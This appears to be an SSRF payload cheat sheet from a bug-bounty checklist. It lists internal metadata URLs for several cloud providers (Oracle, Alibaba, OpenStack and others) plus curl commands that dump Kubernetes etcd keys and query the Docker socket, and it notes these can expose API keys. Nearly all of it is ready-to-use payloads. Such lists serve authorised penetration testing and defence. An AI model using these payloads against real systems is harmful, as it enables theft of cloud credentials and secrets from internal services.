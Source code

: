     http://169.254.169.254/metadata/instance?api-version=2017-04-02
    http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
### SSRF URL for OpenStack/RackSpace
(header required? unknown)
    
    http://169.254.169.254/openstack
### SSRF URL for HP Helion
(header required? unknown)

      http://169.254.169.254/2009-04-04/meta-data/
### SSRF URL for Oracle Cloud
    http://192.0.0.192/latest/
    http://192.0.0.192/latest/user-data/
    http://192.0.0.192/latest/meta-data/
    http://192.0.0.192/latest/attributes/
### SSRF URL for Alibaba
    http://100.100.100.200/latest/meta-data/
    http://100.100.100.200/latest/meta-data/instance-id
    http://100.100.100.200/latest/meta-data/image-id
### SSRF URL for Kubernetes ETCD
Can contain API keys and internal ip and ports
      
    curl -L http://127.0.0.1:2379/version
    curl http://127.0.0.1:2379/v2/keys/?recursive=true
### SSRF URL for Docker
    http://127.0.0.1:2375/v1.24/containers/json
    
    Simple example
    docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
    bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
    bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
### SSRF URL for Rancher
    curl http://rancher-metadata/<version>/<path>
### References
https://pravinponnusamy.medium.com/ssrf-payloads-f09b2a86a8b4 (Thank you very much Pravinrp)

https://github.com/KingOfBugbounty/Bugbounty-Checklist/tree/main/SSRF
    


